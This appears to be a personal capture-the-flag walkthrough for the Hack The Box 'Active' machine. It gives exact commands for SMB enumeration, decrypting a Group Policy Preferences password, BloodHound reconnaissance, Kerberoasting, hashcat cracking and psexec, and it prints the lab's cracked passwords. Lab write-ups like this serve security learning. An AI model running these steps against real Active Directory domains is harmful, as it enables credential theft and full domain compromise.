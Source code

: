 
# Enumeration #nmap
`nmap -sC -sV -oA nmap/active 10.10.10.100`
`-sC for default scripts`
`-sV for enumerate all versions`
`-oA output all formats`
![[Pasted image 20241209204527.png|nmap scan]]
Key things to note:
* DNS open with version 6.1.7601 which means version 7 = Windows 2008 or Windows service pack 1. If it was 9000 range it would be 2012 = Windows 10. 
* If Kerberos is open then look for LDAP and if they're both open, assume you're on Windows AD box.
* domain name = active.htb -> edit `/etc/hosts` to include
![[Pasted image 20241209205206.png]]

# Enumeration 
#nslookup to find the hostname
`nslookup 10.10.10.100`
#dnsrecon
`dnsrecon -d 10.10.10.100 -r 10.0.0.0/8`
#smbclient
`smbclient -L //10.10.10.100`
![[Pasted image 20241209210112.png]]
#enum4linux (outdated)
`enum4linux 10.10.10.100`
#smbmap
`smbmap -H 10.10.10.100`
![[Pasted image 20241209210439.png]]
List the contents of the Replication share using smbmap
`smbmap -R Replication -H 10.10.10.100`
Discover groups.xml file 
![[Pasted image 20241209211157.png]]
Download groups.xml using smbmap
`smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q`
Run 
`locate Groups.xml`
to see the location smbmap has stored the file. 
![[Pasted image 20241210181609.png]]
#credentialaccess
Run `less` against the file to grab an encrypted password
![[Pasted image 20241210181744.png]]
Use `gpp-decrypt` to decrypt the password
![[Pasted image 20241210181946.png]]
This #gpp tool is within Kali's repo. 

Alternate method to get these credentials using #smbclient 
`smbclient //10.10.10.100/Replication`
`mget *`
`recurse ON`
`prompt OFF`
`mget *`
All files will get downloaded
`find . -type f`
Notice group policy file
![[Pasted image 20241210183104.png]]
Install #impacket
Run `GetADUsers.py -all  -dc-ip 10.10.10.100 active.htb/svc_tgs`
Enter password found for svc_tgs
Result
![[Pasted image 20241210183649.png]]
Look for more network shares
`smbmap -d active.htb -u svc_tgs -p GPPStillStandingStrong2k18 -H 10.10.10.100`
![[Pasted image 20241210184144.png]]
Cannot psexec because user is not an admin.

Switch to Windows box to use these credentials

Open command prompt and run 
`runas /netonly /user:active.htb\svc_tgs`
![[Pasted image 20241210184728.png]]
Confirm access with
`dir \\10.10.10.100\Users`

After initial access is gained, copy #Bloodhound over. 

![[Pasted image 20241210185013.png]]
`python -m SimpleHTPPServer`

Just open web browser on Windows box and navigate to IP address of linux box over port 80 to download #sharphound.exe

Run `Sharphound.exe`
`.\Sharphound.exe -c all -d active.htb --domaincontroller 10.10.10.100`
This fails. 
Troubleshooting steps:
1. Test connection to ldap `Test-Connection -ComputerName 10.10.10.100 -Port 389`
2. Run Sharphound again with Wireshark open
3. Set DNS server to 10.10.10.100   in IP Properties ![[Pasted image 20241210185923.png]]
Sharphound results:
![[Pasted image 20241210190158.png]]
Switching back to Kali box to view the contents of Bloodhound. 

Start #neo4j

`neo4j start`

`cd Bloodhound-linux-x64`

`./Bloodhound`

![[Pasted image 20241210190538.png]]

Refresh screen by pressing f5

Drag and drop BloodHound.zip file into the BloodHound window. 

Searching through BloodHound

![[Pasted image 20241210190809.png]]

Look at common queries. 

Search "Find Shortest Paths to Domain Admin"

![[Pasted image 20241210190914.png]]
Search "Shortest Paths from Kerberoastable Users"

Discover the user "Administrator" is kerberoastable. 

This means we can run #impacket again using #GetUserSPNs .py

Run `GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs`
Enter password for svc_tgs. 

Successful #kerberoasting

![[Pasted image 20241210191620.png]]
Search for which mode of #hashcat to use on hashcat.net search: example hashes to crack admin password. 

we have krb5tgs. 

Save hash to a file. 

Use #hashcat for #passwordcracking 

`hashcat -m 13100 hashes/active.htb /opt/wordlist/rockyou.txt 
`
Retrieve admin password from this crack. 

`TicketMaster1968`

Finally use admin password with #psexec to get root.txt

`psexec.py active.htb/Administrator@10.10.10.100`

